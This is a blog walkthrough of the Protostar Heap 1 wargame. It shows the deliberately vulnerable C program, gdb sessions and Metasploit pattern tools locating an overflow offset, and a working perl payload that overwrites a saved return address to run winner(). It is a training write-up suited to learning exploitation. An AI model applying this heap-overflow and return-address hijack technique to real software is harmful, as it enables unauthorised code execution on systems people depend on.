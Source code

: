 ```yaml
---
title: "Exploit Exercises - Protostar Heap 1"
date: "2012-01-12T18:28:00-05:00"
comments: true
highlight: "true"
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
 - heap
---
```


[This](http://exploit-exercises.com/protostar/heap1) challenge was different for me. The previous heap challenge was easy to pretend it was just a simple stack overflow.  This one worked very different, and brought some different challenges with it. 

<!-- more -->

You first start out with the following code:

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>



struct internet {
 int priority;
 char *name;
};

void winner()
{
 printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
 struct internet *i1, *i2, *i3;

 i1 = malloc(sizeof(struct internet));
 i1->priority = 1;
 i1->name = malloc(8);

 i2 = malloc(sizeof(struct internet));
 i2->priority = 2;
 i2->name = malloc(8);

 strcpy(i1->name, argv[1]);
 strcpy(i2->name, argv[2]);

 printf("and that's a wrap folks!\n");
}
```

It's quite easy to see where the heap overflow would occur.  The code is allocating 8 bytes of space for the "name" field in memory.  However, it's never checking if the arguments are over 8 bytes long. 

After tinkering for a bit, I found that if you passed strings that were too long, you could get strcpy to try overwriting other memory spaces than it was supposed to.  GDB would fail on the lines of strcpy with weird addresses.  So I started there. 

First, I figured I needed to know the offset for the first argument, to know which exact byte it was using as a copy destination.  Just like in stack overflows, I used the [Metasploit Framework](http://www.metasploit.com) to generate a unique string: 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 250
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
```

I then fed that string into the first argument, and passed a test value of "BBBBBBBB" as the second argument. 

```
user@protostar:/opt/protostar/bin$ gdb ./heap1 --quiet
Reading symbols from /opt/protostar/bin/heap1...done.
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A BBBBBBBB
Starting program: /opt/protostar/bin/heap1 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A BBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x37614136 <Address 0x37614136 out of bounds>,
    src=0xbffff99e "BBBBBBBB") at strcpy.c:40
40      strcpy.c: No such file or directory.
        in strcpy.c
```

I used the [Metasploit Framework](http://www.metasploit.com) again to get me the offset using the value in the strcpy dest field. 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x37614136
20
```

So what I had learned here, is if I overflowed the "name" field of the struct with 20 bytes instead of 8, I could then control the destination of the copy for the second strcpy command.  It would copy whatever the second argument was, into any memory space I wanted.  But I needed to control flow of the program to get "winner()" to execute.  Somehow I needed to get the address of "winner()" into the EIP.  My thought on that, was that since when you call a program or function, it puts the return address in the stack, that maybe I could overwrite that return address, and instead of exiting gracefully (because it was the main function), it would put my address into the EIP and run it.  The first step with that was finding the location of that return address in the stack. 

I added a breakpoint to the main function, so I could get the initial memory values once inside that function. 

```
user@protostar:/opt/protostar/bin$ gdb ./heap1 --quiet
Reading symbols from /opt/protostar/bin/heap1...done.
(gdb) break main
Breakpoint 1 at 0x80484c2: file heap1/heap1.c, line 23.
```

I then ran the program with dummy data, which made me hit my breakpoint. 

```
(gdb) run asdf asdf
Starting program: /opt/protostar/bin/heap1 asdf asdf

Breakpoint 1, main (argc=3, argv=0xbffff864) at heap1/heap1.c:23
23      heap1/heap1.c: No such file or directory.
        in heap1/heap1.c
```

From this point, I wanted to look at all the registers, but focus in on the esp and ebp. 

```
(gdb) i r
eax            0xbffff864       -1073743772
ecx            0x7825cdc2       2015743426
edx            0x3      3
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff790       0xbffff790
ebp            0xbffff7b8       0xbffff7b8
esi            0x0      0
edi            0x0      0
eip            0x80484c2        0x80484c2 <main+9>
eflags         0x200286 [ PF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

The important parts here, are that the top of the stack is at 0xbffff790 and the bottom at 0xbffff7b8.  So I pulled up all the memory inbetween those two addresses.  I expected to see 0x00000000 at the end, to signify that it was the end of the function.  And in the addresses before that, one would be the return address. 

```
(gdb) x/10x $esp
0xbffff790:     0xb7fd8304      0xb7fd7ff4      0x08048580      0xbffff7b8
0xbffff7a0:     0xb7ec6365      0xb7ff1040      0x0804858b      0xb7fd7ff4
0xbffff7b0:     0x08048580      0x00000000
```

For now, I removed my original breakpoint, so that execution wouldn't get paused. 

```
(gdb) delete 1
```

I played around with the different addresses in this 0xbffff790-0xbffff7b8 range, and found the address 0xbffff7ac to work out. 

```
(gdb) run $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\xEF\xBE\xAD\xDE"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/heap1 $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\xEF\xBE\xAD\xDE"')
and that's a wrap folks!

Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()
```

So it appears that it wasn't the byte right before the 0x00000000, but was actually 2 bytes before it.  I was now controlling the EIP.  The last step would be to find the address of the winner() function, to get it called. 

```
(gdb) print winner
$1 = {void (void)} 0x8048494 <winner>
```

This was fairly trivial to do.  So I built up the string with the proper return address and winner() address: 

```
(gdb) run $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/heap1 $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"')
and that's a wrap folks!
and we have a winner @ 1326098464

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
```

It looks like it did execute winner() successfully.  It may not have ended the program properly, but we got our execution.  Just to make sure that it'd work outside of gdb, I tried it again on the direct program. 

```
user@protostar:/opt/protostar/bin$ ./heap1 $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"')
and we have a winner @ 1326098505
Segmentation fault
```

There you have it.  The execution was changed to execute where originally not intended.
